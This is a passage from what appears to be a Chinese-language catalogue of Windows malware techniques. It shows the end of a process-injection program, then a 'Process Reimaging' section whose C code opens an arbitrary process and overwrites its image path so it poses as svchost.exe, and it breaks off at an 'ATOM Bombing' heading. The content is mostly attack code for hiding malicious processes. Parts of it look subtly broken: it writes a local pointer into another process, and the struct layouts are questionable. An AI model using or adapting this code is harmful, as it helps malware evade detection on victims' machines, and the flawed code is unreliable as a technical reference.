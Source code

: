         // Cleanup    CloseHandle(hThread);    VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);    CloseHandle(hProcess);  
        printf("Code injected successfully.\n");    return 0;}

 **14\. Process Reimaging**

 **说明:  **Process
Reimaging是一种用于操纵内存中运行进程的映像路径或命令行的技术。这可以用来隐藏恶意活动，方法是将恶意进程伪装成合法进程，例如svchost.exe。

  * 

    
    
    reimage.exe svchost.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>#include <winternl.h>  
    // Define the structure for process parameterstypedef struct _RTL_USER_PROCESS_PARAMETERS {    BYTE Reserved1[16];    PVOID Reserved2[10];    UNICODE_STRING ImagePathName;    UNICODE_STRING CommandLine;} RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;  
    // Define the structure for process basic informationtypedef struct _PROCESS_BASIC_INFORMATION {    PVOID Reserved1;    PRTL_USER_PROCESS_PARAMETERS ProcessParameters;    BYTE Reserved2[104];    PVOID Reserved3[5];    ULONG_PTR PEBBaseAddress;} PROCESS_BASIC_INFORMATION, *PPROCESS_BASIC_INFORMATION;  
    int main() {    DWORD processID;    HANDLE hProcess;    PROCESS_BASIC_INFORMATION pbi;    ULONG returnLength;  
        // Function pointer for NtQueryInformationProcess    typedef NTSTATUS (WINAPI *pNtQueryInformationProcess)(HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);    pNtQueryInformationProcess NtQueryInformationProcess;  
        // Load ntdll and get the address of NtQueryInformationProcess    NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQueryInformationProcess");    if (!NtQueryInformationProcess) {        printf("Failed to get address of NtQueryInformationProcess.\n");        return 1;    }  
        // Assuming you've already obtained the PID of the target process    printf("Enter the PID of the target process: ");    scanf("%d", &processID);  
        // Open the target process    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);    if (!hProcess) {        printf("Failed to open target process.\n");        return 1;    }  
        // Get the process basic information    NTSTATUS status = NtQueryInformationProcess(hProcess, 0, &pbi, sizeof(pbi), &returnLength);    if (status != 0) {        printf("Failed to query process information.\n");        CloseHandle(hProcess);        return 1;    }  
        // Modify the ImagePathName to mimic svchost.exe    UNICODE_STRING fakeImagePath;    fakeImagePath.Buffer = L"C:\\Windows\\System32\\svchost.exe";    fakeImagePath.Length = wcslen(fakeImagePath.Buffer) * 2;    fakeImagePath.MaximumLength = (wcslen(fakeImagePath.Buffer) * 2) + 2;  
        if (!WriteProcessMemory(hProcess, &pbi.ProcessParameters->ImagePathName, &fakeImagePath, sizeof(fakeImagePath), NULL)) {        printf("Failed to modify ImagePathName.\n");        CloseHandle(hProcess);        return 1;    }  
        printf("Successfully reimaged the process.\n");  
        // Cleanup    CloseHandle(hProcess);    return 0;}

 **15\. ATOM Bombing**
